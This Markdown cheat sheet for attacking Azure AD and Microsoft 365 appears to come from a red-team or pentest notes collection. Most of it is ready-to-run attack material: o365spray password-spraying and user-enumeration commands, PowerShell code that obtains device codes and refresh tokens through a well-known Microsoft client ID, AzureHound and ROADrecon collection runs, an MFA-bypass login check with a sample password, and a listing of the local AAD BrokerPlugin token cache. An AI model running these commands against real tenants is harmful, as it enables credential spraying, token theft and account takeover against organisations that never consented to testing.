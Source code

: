 # Azure AD

- [https://bhavsec.com/posts/intro-to-azure-pentesting/](https://bhavsec.com/posts/intro-to-azure-pentesting/)
- [https://sofblocks.github.io/azure-cloud-pentesting/](https://sofblocks.github.io/azure-cloud-pentesting/)
- [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- [[PDF] Dumping NTHashes from Azure AD (Dr Nestori Syynimaa, @DrAzureAD)](https://troopers.de/downloads/troopers23/TR23_DumpingNTHashesfromAzureAD.pdf)




## OSINT

- [https://aadinternals.com/post/just-looking/](https://aadinternals.com/post/just-looking/)
- [https://aadinternals.com/osint/](https://aadinternals.com/osint/)

OpenID configuration:

```
$ curl -s https://login.microsoftonline.com/<TENANT_ID>/v2.0/.well-known/openid-configuration | jq
```




## Password Spray

Using [o365spray](https://github.com/0xZDH/o365spray) (random user agents [here](https://iplogger.org/ru/useragents/)):

```
$ pipx install -f "git+https://github.com/0xZDH/o365spray.git"
$ o365spray --validate -d megacorp.cloud
$ o365spray --enum -d megacorp.cloud -u snovvcrash
$ o365spray --enum -d megacorp.cloud -U names.txt
$ o365spray --spray -d megacorp.cloud -U names.txt -p 'Passw0rd!' --sleep 5 --rate 1 --useragents ua.txt
```




## Enumeration



### Tools


#### ROADrecon

- [https://github.com/dirkjanm/ROADtools](https://github.com/dirkjanm/ROADtools?tab=readme-ov-file#using-roadrecon)

```
$ roadrecon auth --device-code [-ua '<USER_AGENT>']
$ roadrecon gather [-d megacorp.db] [-ua '<USER_AGENT>']
$ roadrecon gui [-d megacorp.db]
```


#### AzureHound

- [https://github.com/BloodHoundAD/AzureHound](https://github.com/BloodHoundAD/AzureHound/releases/latest)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html#dealing-with-multi-factor-auth-and-conditional-access-policies)

Get the `device_code`:

```powershell
$body = @{
    "client_id" = "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource"  = "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers = @{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

Get the `refresh_token`:

```powershell
$body = @{
    "client_id"  = "1950a258-227b-4e31-a9cf-717495945fc2"
    "grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
    "code"       = $authResponse.device_code
}
$tokens = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$tokens
```

Collect data providing the `refresh_token`:

```
$ eget -qs linux/amd64 "BloodHoundAD/AzureHound" --to ~/tools/BloodHound
$ ~/tools/BloodHound/azurehound -r "<REFRESH_TOKEN>" list --tenant megacorp.cloud --json -o azure_megacorp.cloud.json
```




## MFA Bypass

- [https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass](https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass#office365-client-apps)
- [https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/](https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/)

Check if MFA is forcefully enabled via [well-known client GUIDs](https://github.com/dirkjanm/ROADtools/blob/6e7ac2d1ea5805d2e9a1a14fe1bf2bd05b45b891/roadlib/roadtools/roadlib/constants.py#L14):

```
$ proxy roadrecon auth -u snovvcrash@megacorp.cloud -p 'Passw0rd!' -r https://outlook.office.com/ -c 1b730954-1685-4b74-9bfd-dac224a7b894 --tokens-stdout
```



### AAD.BrokerPlugin

- [https://habr.com/ru/articles/688426/](https://habr.com/ru/articles/688426/)

```
PS > ls C:\Users\<USERNAME>\AppData\Local\Packages\Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy\LocalState\*
```
